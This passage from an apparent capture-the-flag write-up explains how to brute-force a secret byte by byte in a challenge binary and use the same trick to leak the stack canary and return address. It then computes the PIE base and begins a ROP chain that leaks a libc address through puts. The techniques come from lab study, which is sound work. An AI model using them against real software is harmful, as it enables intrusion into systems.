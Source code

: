 The same would happen if the first byte of `input` was set to `0x02`, `0x03`, `0x04`, and so on. But we are inside an infinite loop, and we can change our input how many times we want. So we can go on trying *every* byte from `0x01` to `0xff` until we actually get `You win!` as the output. When we do, it means we found the first byte of the `secret`. Then we can set that byte and move the null byte one byte forward:

```
0x00    0x41 0x41 0x41 0x41 0x41 0x00 0x01 0xd2        <--- input
0x08    0x56 0x44 0xa3 0x32 0xb5 0x4d 0xf6 0xd2        <--- secret
```

and try again all the possible values from `0x01` to `0xff` until we get the correct byte. This process can be iterated forever, until we find all the bytes of the secret.

This trick is very cool, but leaking the secret it's actually not useful at all. What we can do, though, is using the exact same trick to leak the other blocks of the stack as well. This is the real stack layout:

```
0x00    input[0:8]
0x08    input[8:16]
0x10    input[16:24]
0x18    input[24:32]
0x20    input[32:40]
0x28    secret[0:8]
0x30    secret[8:16]
0x38    canary
0x40    rbp
0x48    ret addr
0x50    greeting string[0:8]
0x58    greeting string[8:16]
0x60    greeting string[16:24]
0x68    ...
```

The maximum size of our input is `0x68`, which means we can get both to the canary and the saved return address. There is no libc address on the stack that we can reach, so that cannot be leaked with this same trick.

After leaking the canary and the return address we can easily compute pie base by just subtracting the pie leak offset from the pie leak itself. At this point, we can use a tool like `ropper` or `ROPGadget` to search for ROP gadgets. It's quick to notice that the binary doesn't have any syscall gadget, so getting the flag from just ROPping inside the binary seems not possible: we need a libc leak.  

A possible solution consists in building a small ROP chain that calls `puts` to print a GOT entry and get a libc leak. Luckily, the binary has the perfect gadget for that:

```
0x0000000000001503: pop rdi; ret;
```

After we got the GOT leak, we can ROP back to the `game` function, so that the program will ask us again for input and we can use the libc leak to perform the second stage of the attack. The first chain looks like this:

```
POP_RDI = pie_base + 0x0000000000001503
ropchain = p64(POP_RDI)
ropchain += p64(exe.got["puts"])
ropchain += p64(exe.plt["puts"])
ropchain += p64(exe.sym.game)
```
